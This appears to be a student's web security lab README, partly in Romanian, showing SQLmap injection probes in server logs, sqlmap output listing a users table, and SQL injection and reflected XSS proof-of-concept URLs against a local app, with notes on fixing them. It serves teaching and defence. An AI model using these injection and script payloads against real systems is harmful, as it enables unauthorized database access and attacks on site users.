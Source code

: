 Log file analizer usage:

```
# Show 4xx errors
python log_analyzer.py 1

# Show URL statistics
python log_analyzer.py 2

# Watch logs in real-time
python log_analyzer.py 3

# Specify a different log directory
python log_analyzer.py 2 --log-dir /path/to/logs
```

Lab 4:
The logs are showing us that SQLmap is testing for SQL injection on GET parameter 'nume'. It tried different attacks and it successfully extracted the users table. 


```
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 info: Searching for: Ion' UNION ALL SELECT CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113)||(SELECT (CASE WHEN (LENGTH(SYSDATE)=LENGTH(SYSDATE)) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113),NULL FROM DUAL-- rqBU
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LENGTH%28SYSDATE%29%3DLENGTH%28SYSDATE%29%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%2CNULL%20FROM%20DUAL--%20rqBU ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such table: DUAL
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200 info: Searching for: Ion' UNION ALL SELECT (CHR(113)||CHR(118)||CHR(107)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (CONVERT_TO('QXrQ',QUOTE_IDENT(NULL)) IS NULL) THEN (CHR(49)) ELSE (CHR(48)) END))||(CHR(113)||CHR(112)||CHR(120)||CHR(122)||CHR(113)),NULL-- IARt
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28113%29%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28CONVERT_TO%28%27QXrQ%27%2CQUOTE_IDENT%28NULL%29%29%20IS%20NULL%29%20THEN%20%28CHR%2849%29%29%20ELSE%20%28CHR%2848%29%29%20END%29%29%7C%7C%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%29%2CNULL--%20IARt ::1 200
 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: CHR
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113)+CHAR(118)+CHAR(107)+CHAR(112)+CHAR(113)+(CASE WHEN (UNICODE(SQUARE(NULL)) IS NULL) THEN CHAR(49) ELSE CHAR(48) END)+CHAR(113)+CHAR(112)+CHAR(120)+CHAR(122)+CHAR(113),NULL-- HkCf
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%29%2BCHAR%28118%29%2BCHAR%28107%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28CASE%20WHEN%20%28UNICODE%28SQUARE%28NULL%29%29%20IS%20NULL%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL--%20HkCf ::1 200 error: Redirecting to login page: Database error: SQLITE_ERROR: no such function: SQUARE
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /api/login ::1 200 info: Login page
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Searching for: Ion' UNION ALL SELECT CHAR(113,118,107,112,113)||(SELECT (CASE WHEN (LAST_INSERT_ROWID()=LAST_INSERT_ROWID()) THEN 1 ELSE 0 END))||CHAR(113,112,120,122,113),NULL-- ksZP
2025-01-04 10:01:01 [5164] DESKTOP-7G6ED05 GET /cauta?nume=Ion%27%20UNION%20ALL%20SELECT%20CHAR%28113%2C118%2C107%2C112%2C113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%28LAST_INSERT_ROWID%28%29%3DLAST_INSERT_ROWID%28%29%29%20THEN%201%20ELSE%200%20END%29%29%7C%7CCHAR%28113%2C112%2C120%2C122%2C113%29%2CNULL--%20ksZP ::1 200 info: Rendering cauta page
```

```
[10:01:01] [INFO] the back-end DBMS is SQLite
[10:01:01] [INFO] fetching banner
web application technology: Express
back-end DBMS: SQLite
banner: '3.44.2'
[10:01:01] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+-----------------+
| sqlite_sequence |
| users           |
+-----------------+

```
SQLite integration tutorial: https://www.sqlitetutorial.net/sqlite-nodejs/


Lab5:
Possible problems and how to solve it:
```
Access to fetch at 'http://localhost:5000/api/data' from origin 'http://localhost:4567' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled
```

Lab6:
URL vulnerabil:
```
http://localhost:4567/cauta?q=' OR '1'='1
```
In acest caz, query-ul devine ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` si ```OR '1'='1'``` este mereu adevarat, deci ne vor fi returnati toti utilizatorii din tabelul users. Pentru a rezolva problema SQL injection, trebuie sa sanitizam datele, de exemplu prin utilizarea Sequelize. Aceasta sanitizare se face si automat cu ajutorul sqlite.

URL vulnerabil:
```
http://localhost:4567/cauta?q=<script type="text/javascript">alert("vulnerable");</script>
```
Acsta va realiza un pop up de tip alerta in care se va mentiona ca siteul este vulnerabil. Pentru a preveni acest tip de atac trebuie sa utilizam ```<%= %>``` în loc de ```<%- %>```. De asemenea, ar trebui sa sanitizam datele primite din query.


You need to enable CORS on the server where the API is hosted (http://127.0.0.1:5000)